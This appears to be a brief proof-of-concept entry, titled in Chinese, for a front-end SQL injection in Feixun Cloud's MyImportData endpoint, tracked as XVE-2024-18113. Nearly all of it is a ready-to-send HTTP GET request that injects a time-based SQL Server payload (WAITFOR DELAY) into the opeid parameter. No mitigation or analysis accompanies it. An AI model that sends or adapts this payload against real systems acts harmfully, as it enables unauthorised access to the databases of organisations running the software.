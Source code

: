 # 飞讯云MyImportData前台SQL注入(XVE-2024-18113)

## poc

```yaml
GET /MyDown/MyImportData?opeid=' WAITFOR DELAY '0:0:5'-- AtpN HTTP/1.1
Host: ip
```


